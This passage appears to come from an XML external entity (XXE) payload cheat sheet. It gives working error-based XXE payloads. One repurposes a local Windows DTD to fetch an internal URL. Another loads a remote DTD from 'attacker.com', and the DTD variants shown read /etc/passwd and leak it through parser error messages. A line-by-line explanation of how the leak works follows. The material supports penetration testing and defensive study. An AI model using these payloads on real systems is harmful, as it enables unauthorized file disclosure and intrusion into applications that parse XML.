 * Disclose HTTP Response

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "https://erp.company.com">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://test/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```


### Error Based - Using Remote DTD

**Payload to trigger the XXE**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Content of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**Alternative content of ext.dtd**

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

Let's break down the payload:

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
  This line defines an external entity named file that references the content of the file /etc/passwd (a Unix-like system file containing user account details).
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
  This line defines an entity eval that holds another entity definition. This other entity (error) is meant to reference a nonexistent file and append the content of the file entity (the `/etc/passwd` content) to the end of the file path. The `&#x25;` is a URL-encoded '`%`' used to reference an entity inside an entity definition.
3. `%eval;`
  This line uses the eval entity, which causes the entity error to be defined.
4. `%error;`
  Finally, this line uses the error entity, which attempts to access a nonexistent file with a path that includes the content of `/etc/passwd`. Since the file doesn't exist, an error will be thrown. If the application reports back the error to the user and includes the file path in the error message, then the content of `/etc/passwd` would be disclosed as part of the error message, revealing sensitive information.
